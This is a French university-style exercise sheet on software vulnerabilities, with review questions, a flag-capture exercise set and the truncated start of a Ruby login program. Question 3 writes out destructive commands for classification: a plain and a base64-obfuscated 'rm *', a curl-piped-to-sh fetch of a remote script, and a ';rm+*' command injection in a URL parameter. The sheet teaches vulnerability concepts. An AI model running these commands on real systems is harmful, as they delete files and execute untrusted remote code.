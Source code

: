 # Revue des logiciels

 1. Mettez en relation chacun des concepts suivants dans un graphe/schéma/*Mind Map* simple.
    - Programme
    - Écriture (programmation)
    - Toolchain
    - Idée
    - Ordinateur
    - Code source
    - Résultats
    - Programmeur
    - Exécution
    - Données (input)
 2. Discutez puis donnez votre définition d'un **bug**. Où se situe les bugs dans votre schéma de la question 1?
 3. Parmi les exemples suivants lesquels sont des vulnérabilités?
    1. `rm *`
    2. `echo cm0gKgo= | base64 -d | sh`
    3. `curl http://www.sh4ddy.xyz/rmstar.sh | sh` (Le nom du fichier est un bon indice de son contenu)
    4. L'application checkhost prend un paramètre `host` et puis vérifie s'il répond au `ping` afin de savoir s'il est disponible: `curl 'http://localhost/checkhost/?host=;rm+*'`
 4. En considérant vos réponses à l'exercice précédent, donnez une définition d'une **vulnérabilité logicielle**. 
    1. Est-ce que tous les bugs sont des vulnérabilité?
    2. Quelles sont les caractéristiques d'une vulnérabilité?
    3. En référence à votre schéma de la question 1,
       1. Où se situent les vulnérabilités?
       2. Qui est responsable de la vulnérabilité?
 5. Donnez une définition de l'**exploitation** d'une vulnérabilité.
 6. Qu'est-ce q'un **exploit** d'après vous?

# Exercices Fragilités

Pour chacun des exercices suivants, cherchez une vulnérabilité logicielle et trouvez un exploit qui vous permettrait de lire les fichiers `flag?.txt`. La démarche est libre à vous mais en voici tout de même un exemple.

 1. Cherchez un bug
 2. Observez ce que ce bug peut causer comme effet dans l'état ou dans le flot du logiciel
 3. Trouvez une façon de rendre ces effets utiles pour atteindre votre objectif (lire le flag)
 4. Développez votre exploit

Réfléchissez par la suite aux correctifs possibles et évaluez leur efficacité. Prenez le temps de prendre un peu de recul sur la vulnérabilité afin de bien comprendre quel est le noeud du problème. Votre correctif devrait cibler le noeud du problème.

## Auth

``` ruby
#!/usr/bin/ruby

$username = $password = $function = ""
$is_auth = false

def login # Use guest:guest as guest account
  $username = input("user?")
  $password = input("pass?")
  if validate($username, $password) then
    $is_auth = true
  end
end

def secret
```